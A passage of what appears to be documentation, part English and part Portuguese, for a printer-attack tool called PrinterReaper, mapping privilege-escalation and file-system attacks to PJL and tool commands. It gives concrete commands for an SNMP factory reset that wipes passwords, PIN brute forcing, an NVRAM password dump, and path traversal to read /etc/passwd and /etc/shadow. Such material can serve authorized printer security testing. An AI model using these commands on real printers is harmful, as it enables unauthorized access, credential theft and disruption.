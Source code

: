 ## 3️⃣ PRIVILEGE ESCALATION (5/5 = 100%)

### ✅ 3.1 Factory Reset (Remove Passwords)
**PJL**: `@PJL DEFAULT`  
**PrinterReaper**: `reset`  
**Efeito**: Remove todas configurações incluindo senhas  
**SNMP Alternative**: `snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6`

### ✅ 3.2 Unlock via Brute Force
**PJL**: `@PJL SET LOCKPIN=<pin>`  
**PrinterReaper**: `unlock` (manual), brute force não implementado  
**Efeito**: Desbloquear impressora testando PINs

### ✅ 3.3 Bypass Access Control
**PJL**: File system access direto  
**PrinterReaper**: `cat`, `download` com path traversal  
**Efeito**: Ler arquivos protegidos

### ✅ 3.4 Admin Password Retrieval
**PJL**: NVRAM dump  
**PrinterReaper**: `nvram dump`  
**Efeito**: Extrair senha de admin da NVRAM

### ✅ 3.5 Configuration Poisoning
**PJL**: `@PJL SET var=malicious_value`  
**PrinterReaper**: `set`  
**Efeito**: Modificar configurações sensíveis

---

## 4️⃣ FILE SYSTEM ATTACKS (10/10 = 100%)

### ✅ 4.1 Directory Traversal
**PJL**: `@PJL FSDOWNLOAD NAME="../../../etc/passwd"`  
**PrinterReaper**: `cat ../../../etc/passwd`  
**Efeito**: Acesso a arquivos fora do diretório autorizado

**Teste**:
```
cat ../../../etc/passwd
cat ../../rw/var/sys/passwd
download 0:/../../../etc/shadow
```

### ✅ 4.2 Fuzzing File Paths
**PJL**: Testar múltiplos paths  
**PrinterReaper**: `fuzz`  
**Efeito**: Descobrir arquivos e diretórios ocultos

